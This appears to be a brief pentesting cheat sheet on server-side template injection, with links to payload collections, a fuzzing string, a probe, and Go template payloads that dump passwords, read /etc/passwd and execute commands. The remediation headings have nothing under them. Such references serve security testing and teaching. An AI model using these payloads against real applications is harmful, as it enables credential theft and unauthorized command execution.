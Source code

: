 # Resource for more complicated payloads: https://github.com/swisskyrepo/PayloadsAllTheThings

# https://book.hacktricks.xyz/

## Payloads Fuzzing: ${{<%'"}}%

## PoC Payload for Identification: ${7*7}

## Explaining further about more template engines here: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Remediation:

### 1: Secure methods

### 2: Sanitization

## Example payloads:

## Go SSTI

### 1) {{ .Password }} (Fetches the passwords of all users) Hint: It depends on the struct the application has been made of to use the correct one! 

### 2) {{ .GetFile "/etc/passwd" }} (Gets the passwd linux file)

### 3) {{ .ExecuteCmd "whoami" }} Executes commands

### 4) {{ . }} (Dumps variables)
